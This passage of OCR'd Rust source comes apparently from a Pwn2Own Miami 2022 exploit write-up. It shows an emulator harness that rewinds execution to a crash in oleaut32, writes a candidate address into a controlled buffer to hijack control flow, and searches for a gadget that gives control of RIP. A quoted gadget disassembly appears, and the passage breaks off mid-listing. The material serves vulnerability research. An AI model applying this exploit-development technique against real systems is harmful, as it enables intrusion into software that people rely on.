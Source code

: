 ```rust
        // oleaut32!guard_dispatch_icall_nop:
        // 00007ffb`3a36e280 ffe0            jmp     rax
        // ```
        let rcx = emu.rcx();

        // Rewind to the instruction right before the crash:
        // ```
        // 0:011> ub .
        // oleaut32!VariantClearWorker+0xe6:
        // ...
        //00007ffb'3a3dc7f8 488b01          mov     rax,qword ptr [rcx]
        // ```
        emu.set_rip(0x00007ffb_3a3dc7f8);

        // Overwrite the buffer we control with the `MARKER_PAGE_ADDR`. The first qword
        // is used to hijack control flow, so this is where we write the candidate
        // address.
        for qword in 0..18 {
            let idx = qword * std::mem::size_of::<u64>();
            let idx = idx as u64;
            let value = if qword == 0 {
                candidate
            } else {
                MARKER_PAGE_ADDR.u64()
            };

            emu.virt_write(Gva::new(rcx + idx), &value)?;
        }

        Ok(())
    }

    fn post(&mut self, emu: &Emu) -> Result<bool> {
      // ...
    }
}
```

The `post` function runs after the emulator halted (because of a crash or a timeout). The below tries to identify a tainted RIP:
```rust
impl Finder for Pwn2OwnMiami2022_1 {
    fn pre(&mut self, emu: &mut Emu, candidate: u64) -> Result<()> {
      // ...
    }

    fn post(&mut self, emu: &Emu) -> Result<bool> {
        // What we want here, is to find a sequence of instructions that leads to @rip
        // being controlled. To do that, in the |Pre| callback, we populate the buffer
        // we control with the `MARKER_PAGE_ADDR`, which is a magic address
        // that'll trigger a fault if it's accessed/written to / executed. Basically,
        // we want to force a crash as this might mean that we successfully found a
        // gadget that'll allow us to turn the constrained arbitrary call from above,
        // to an uncontrolled where we don't need to worry about dereferences (cf |mov
        // rax, qword ptr [rax+10h]|).
        //
        // Here is the gadget I ended up using:
        // ```
        // 0:011> u poi(1400aed18)
        // 00007ffb2137ffe0   sub     rsp,38h
        // 00007ffb2137ffe4   test    rcx,rcx
        // 00007ffb2137ffe7   je      00007ffb`21380015
        // 00007ffb2137ffe9   cmp     qword ptr [rcx+10h],0
        // 00007ffb2137ffee   jne     00007ffb`2137fff4
```